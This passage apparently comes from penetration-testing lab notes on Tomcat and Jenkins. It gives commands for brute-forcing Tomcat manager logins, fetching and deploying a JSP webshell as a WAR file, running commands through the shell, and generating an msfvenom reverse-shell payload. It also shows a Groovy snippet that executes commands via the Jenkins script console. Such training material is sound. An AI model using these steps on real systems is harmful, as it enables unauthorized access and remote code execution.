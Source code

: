 Now in Burp we can see each request. We can use [this](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce) script to bruteforcing it.
```console
zero@pio$ python3 mgr_brute.py -U http://<TARGET>:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

### WAR File Upload 

After performing a brute force attack browse to `http://<TAGRTET>:8180/manager/html` and enter the credentials. The manager web app allows us to instantly deploy new applications by uploading WAR files. This file is uploaded to the manager GUI, after which the `/backup` application will be added to the table. We can upload the following file:
```console
zero@pio$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zero@pio$  zip -r backup.war cmd.jsp 
```

Now we have access to the webshell:
```console
zero@pio$ curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

To use a reverse shell:
```console
zero@pio$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<OUR IP> LPORT=4443 -f war > backup.war
```

Start a Netcat listener and click on `/backup` to execute the shell. The `multi/http/tomcat_mgr_upload` Metasploit module can be used to automate the process shown above. 

---

## Jenkins 

Jenkins is an open-source automation server that helps developers build and test their software projects continuously. Jenkins runs on Tomcat **port 8080** by default. It also utilizes **port 5000** to attach slave servers. This port is used to communicate between masters and slaves. We may encounter a Jenkins instance that uses weak or default credentials such as admin:admin or does not have any type of authentication enabled. It is not uncommon to find Jenkins instances that do not require any authentication during an internal penetration test.

### Script Console 

The script console can be reached at the URL `http://<TARGET>/script`. This console allows a user to run **Apache Groovy scripts**, which are an object-oriented Java-compatible language. The language is similar to Python and Ruby. For example, we can use the following snippet to run the `id` command:
```
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```
